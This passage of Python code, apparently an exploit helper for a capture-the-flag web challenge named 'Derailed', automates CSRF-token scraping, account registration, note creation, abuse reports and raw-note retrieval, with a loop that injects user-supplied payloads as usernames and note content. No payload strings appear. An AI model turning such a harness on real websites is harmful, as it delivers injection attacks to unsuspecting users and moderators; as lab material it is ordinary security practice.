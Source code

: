 ```python
        response = self.session.get(URL)
        csrf_token = self._extract_csrf_token(response)

        create_form = {
            "authenticity_token": csrf_token,
            "note[content]": content,
            "button": ""
        }
        response = self.session.post(URL + create, data=create_form, allow_redirects=False)

        if response.status_code == 302:
            return int(response.text.split("clipnotes/")[1].split('"')[0])
        else:
            return None
        
    def report_clipnote(self, reason: str, id: int) -> bool:
        """
            Returns True if the clipnote was reported successfully, False otherwise.
        """
        response = self.session.get(URL + report_get.format(id))
        csrf_token = self._extract_csrf_token(response)

        report_form = {
            "authenticity_token": csrf_token,
            "report[reason]": reason,
            "report[note_id]": id
        }
        response = self.session.post(URL + report_post, data=report_form, allow_redirects=False, headers={"Referer": URL + report_get.format(id)})

        return response.status_code == 302

    def get_clipnote_raw(self, id: int) -> str|None:
        """
            Returns the raw content of the clipnote if it exists, None otherwise.
        """
        response = self.session.get(URL + clipnote_raw.format(id))

        if response.status_code == 200:
            return response.text
        else:
            return None

if __name__ == "__main__":
    derailed = Derailed()
    while True:
        payload = input("payload> ")

        if not derailed.create_user(payload, 'a'):
            print("[-] Failed to register.")
            continue

        if not derailed.login_user(payload, 'a'):
            print("[-] Failed to login.")
            continue

        id = derailed.create_clipnote(payload)
        if id is None:
            print("[-] Failed to create clipnote.")
            continue

        print("[+] Created clipnote with ID {}. View it at {}".format(id, URL + clipnote.format(id)))
```